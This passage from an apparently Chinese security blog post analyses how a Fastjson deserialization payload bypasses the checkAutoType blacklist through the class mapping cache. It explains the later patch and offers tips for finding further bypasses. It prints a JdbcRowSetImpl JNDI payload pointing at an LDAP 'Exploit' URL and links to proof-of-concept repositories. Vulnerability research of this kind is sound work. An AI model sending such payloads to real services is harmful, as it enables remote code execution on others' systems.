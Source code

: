 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0114760407ed2eacdd.png)

我们该去跟着b

（”b”:`{`“@type”:”com.sun.rowset.JdbcRowSetImpl”,”dataSourceName”:”ldap://localhost:1389/Exploit”,”autoCommit”:true`}``}`）了，看看为什么checkauto()函数没把b给拦下来，直接去跟进checkautotype函数，当autotype为true的时候，虽然发现黑名单匹配了，但是TypeUtils.getClassFromMapping(typeName) ！= null所以不会抛出异常。

[![](https://p4.ssl.qhimg.com/t014a60d56f16cdf3cc.png)](https://p4.ssl.qhimg.com/t014a60d56f16cdf3cc.png)

而当autotype为false的时候，发现当传入的@type对应的类在mapping里面有的时候，就直接把之前生成的对象拉出来了，这时候直接返回，压根还没有走到后面的黑名单，所以成功绕过了之前的补丁。可以看到这次的poc是不受autotype影响的，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01fbd9c231f3d37e40.png)

从上面的分析也可以明白后续官方的补丁做了什么，那自然是把cache的默认值改成了false，不让Class生成的对象存在mapping里面了。

### Fastjson漏洞挖掘的规律总结

从上面追溯的fastjson的修复绕过上面可以看到有以下几点还是很值得注意的：
1. fastjson的防范类是checkAutoType函数，而导致命令执行的很关键的一步是loadClass，因此从checkAutoType到loadClass之间的代码，将会是绕过需要研究的关键部分。
1. 如果需要绕过黑名单，需要将目光放到使用量较大，并提供jndi功能的jar包上。
1. 对于这种早就修复但是还没有公开的漏洞，github的源码中说不定有惊喜。
## 引用

https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA_nBDA

[https://github.com/shengqi158/fastjson-remote-code-execute-poc/](https://github.com/shengqi158/fastjson-remote-code-execute-poc/)

https://github.com/mbechler/marshalsec
